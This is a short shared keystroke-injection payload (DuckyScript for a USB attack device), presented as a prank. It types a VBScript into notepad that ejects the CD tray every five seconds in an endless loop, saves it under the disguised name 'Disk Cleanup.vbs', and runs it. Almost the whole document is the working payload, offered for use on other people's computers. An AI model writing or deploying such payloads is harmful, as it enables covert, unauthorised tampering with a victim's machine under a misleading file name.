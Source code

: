 Author: Windy42

Description: This will make an .exe that will open the disk tray over and over again.

Note: I do not take all credit for writing this, the prank has been written many times I just converted it into a Payload.

```
GUI d
DELAY 300
GUI r
STRING notepad
ENTER
DELAY 100
STRING Set oWMP = CreateObject("WMPlayer.OCX.7")
ENTER
STRING Set colCDROMs = oWMP.cdromCollection
ENTER
STRING do
ENTER
STRING if colCDROMs >= 1 then
ENTER
STRING For i = 0 to colCDROMs.Count - 1
ENTER
STRING colCDROMs.Item(i).Eject
ENTER
STRING Next
ENTER
STRING End If
ENTER
STRING wscript.sleep 5000
ENTER
STRING loop
DELAY 200
CTRL s
DELAY 100
STRING %userprofile%\Disk Cleanup.vbs
ENTER
DELAY 200
ALT F4
DELAY 100
GUI d
DELAY 100
GUI r
STRING Disk Cleanup.vbs
ENTER
```